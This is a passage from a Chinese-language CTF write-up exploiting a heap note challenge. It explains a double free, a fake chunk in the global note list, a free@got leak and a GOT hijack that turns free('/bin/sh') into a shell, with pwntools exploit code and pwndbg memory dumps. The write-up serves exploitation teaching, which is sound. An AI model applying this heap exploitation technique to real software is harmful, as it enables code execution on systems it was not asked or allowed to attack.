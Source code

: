 ```
free_got = u64(p.recvuntil('\n')[:-1].ljust(8, '\0'))
print('free_got={}'.format(hex(free_got)))
libcbase = free_got - libc.sym['free']
system_addr = libcbase + libc.sym['system']
edit_note(5, p64(system_addr))
raw_input('step5 success')
del_note(3)
p.interactive()
```

整体思路为：通过double free实现内存读写后，在全局note_list结构体(可参考附件源码)处伪造了一个新的节点，其地址指向free@plt，通过对改地址的读和写，即可以实现泄露free@got地址和GOT劫持，根据泄露地址可以计算出system地址，然后通过GOT劫持将free@got改写为system@got，最后调用free('/bin/sh')即完成了system('/bin/sh')调用取得shell。

核心代码分步调试分析：

**STEP1**

```
add_note('A' * 0x30)  # 0
add_note('B' * 0x30)  # 1
add_note('C' * 0x30)  # 2
add_note('D' * 0x30)  # 3
add_note('E' * 0x41)  # 4
raw_input("step1 success")
```

首先创建了5个节点，其中4个大小0x30，第5个大小0x41。

> 之所以要创建一个0x41大小的节点，是因为0x30的节点其对应的chunk size即为0x41。后面我们需要在note_list结构体里通过double free伪造一个chunk，来达到改写note_list结构体的目的，因此需要在note_list里构造0x41出来，方便后面在此处伪造chunk。

此时查看内存布局如下：

> 0x6020a0为bss段里全局变量struct node_list *list的固定地址，调试时可以从此处定位到整个栈内存

```
pwndbg> x/gx 0x6020a0        # 此地址为bss段全局变量list固定地址
0x6020a0 <list>:        0x0000000001812010
pwndbg> x/30gx 0x0000000001812010
0x1812010:      0x0000000000000100      0x0000000000000005
0x1812020:      0x0000000000000001      0x0000000000000030
0x1812030:      0x0000000001813830      0x0000000000000001
0x1812040:      0x0000000000000030      0x0000000001813870
0x1812050:      0x0000000000000001      0x0000000000000030
0x1812060:      0x00000000018138b0      0x0000000000000001
0x1812070:      0x0000000000000030      0x00000000018138f0
0x1812080:      0x0000000000000001      0x0000000000000041   # 这里0x41是第5个节点的长度，最后我们将在这里伪造chunk
0x1812090:      0x0000000001813930      0x0000000000000000
0x18120a0:      0x0000000000000000      0x0000000000000000
pwndbg> x/50gx 0x0000000001813830-0x10
0x1813820:      0x0000000000000000      0x0000000000000041
0x1813830:      0x4141414141414141      0x4141414141414141
0x1813840:      0x4141414141414141      0x4141414141414141
0x1813850:      0x4141414141414141      0x0041414141414141
0x1813860:      0x0000000000000000      0x0000000000000041
0x1813870:      0x4242424242424242      0x4242424242424242
0x1813880:      0x4242424242424242      0x4242424242424242
0x1813890:      0x4242424242424242      0x0042424242424242
0x18138a0:      0x0000000000000000      0x0000000000000041
0x18138b0:      0x4343434343434343      0x4343434343434343
0x18138c0:      0x4343434343434343      0x4343434343434343
0x18138d0:      0x4343434343434343      0x0043434343434343
0x18138e0:      0x0000000000000000      0x0000000000000041
0x18138f0:      0x4444444444444444      0x4444444444444444
0x1813900:      0x4444444444444444      0x4444444444444444
0x1813910:      0x4444444444444444      0x0044444444444444
0x1813920:      0x0000000000000000      0x0000000000000051
```